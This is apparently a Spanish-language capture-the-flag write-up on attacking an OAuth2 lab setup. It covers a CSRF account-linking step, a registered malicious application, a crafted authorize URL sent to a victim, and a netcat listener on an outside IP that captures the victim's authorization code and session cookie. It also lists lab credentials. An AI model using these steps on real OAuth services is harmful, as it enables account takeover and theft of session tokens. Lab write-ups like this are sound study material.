 ```http://consumer.oouch.htb:5000/oauth/connect/token?code=0HEcoYFa5Kde7MDN6aERyfcQgJTdWM```

Te deslogueas y te logueas otra vez pero con el /oauth/login en vez del /login (O sea por oauth) te sale otro panel de autorizacion, esta vez darle a authorize
Por tanto entras con la cuenta "qtc:qtc@nonexistend.nonono"

Aqui se ha haplicado un Cross Side Request Forgery, es decir, el usaurio QTC ha terminado de tramitar nuestra peticion de vincular las cuentas pero con su 
sesión, por lo que hemos vinculado nuestra cuenta a la suya. 
Si le hubieramos dado a Forward en vez de parar la peticion y mandarsela a qtc se nos hubiera vinculado con nuestra cuenta del auth server (cucuxii:contraseña123).

---------------------------------

# Part 4: Pentesting Oauth2 -> autorizacion de aplicaciones

Esta persona en /Documents tiene
```
dev_access.txt -> develop:supermegasecureklarabubu123! -> Permite registrar una aplicación
o_auth_notes.txt -> /api/get_user -> user data. oauth/authorize -> Now also supports GET method.
todo.txt -> Crhis menciono que todos los usuarois pueden obtener mi llave ssh... debe ser una broma. 
```

En /applications no nos deja con las creds estas (develop:supermegasecureklarabubu123!)
Pero si vamos a /applications/register si que funcionan.

```
[DATOS DE NUESTRA APLICACION]
id: Cn55qW8DMDIvhWLkJLECtX0iJtNILk3WJgwiGmrA
secret: cwsC3srw1taHAvg0xnOMYHsSPyn8gas7ZrapAlMffMEIY1vygjkfAkPNarxwgE792gmt4temsYp1UF2u5AyEIinjMyR6zL8Di408gQyrS1tlO8B88ZGwlvw59O4Ltzwk
redirect_uri: http://10.10.14.16/test
url: http://authorization.oouch.htb:8000/oauth/applications/2/
```
Nos vamos otra vez a ```http://consumer.oouch.htb:5000/oauth/connect``` e interceptamos al darle a authorize. Ponemos los datos de redirect_uri y client id que
hemos sacado de nuestra aplicacion
Camibamos de POST a GET y quitando ciertos parametros como el *csrfmiddlewaretoken* 
```
GET /oauth/authorize/?client_id=Cn55qW8DMDIvhWLkJLECtX0iJtNILk3WJgwiGmrA&response_type=code&redirect_uri=http://10.10.14.16/test&scope=read&state=&allow=Authorize
```
Le damos a copy URL y ahora le mandamos por /contact
```http://authorization.oouch.htb:8000/oauth/authorize/?client_id=Cn55qW8DMDIvhWLkJLECtX0iJtNILk3WJgwiGmrA&response_type=code&redirect_uri=http://10.10.14.16/test&scope=read&state=&allow=Authorize```

```console
└─$ sudo nc -nlvp 80
Ncat: Connection from 10.10.10.177:33156.
GET /test?code=fe7kjqU3BT9WIYeQ8DNQns5DTXxLR6 HTTP/1.1
Cookie: sessionid=cit35r8dujmo87ihnjaa9l250zt2t6yu;
```
Aqui nos hemos aprovhechado del mismo boton de enlace que antes (/oauth/connect) pero cambiando lo de conectar cuentas con la aplicacion (mediante el client_id)
y que nos mande el token a nosotros (redirect uri) en vez de a la web del puerto 5000. Con netcat hemos podido ver los detalles de esa conexión que nos ha hecho
qtc con su cookie (del auth server) y el codigo.
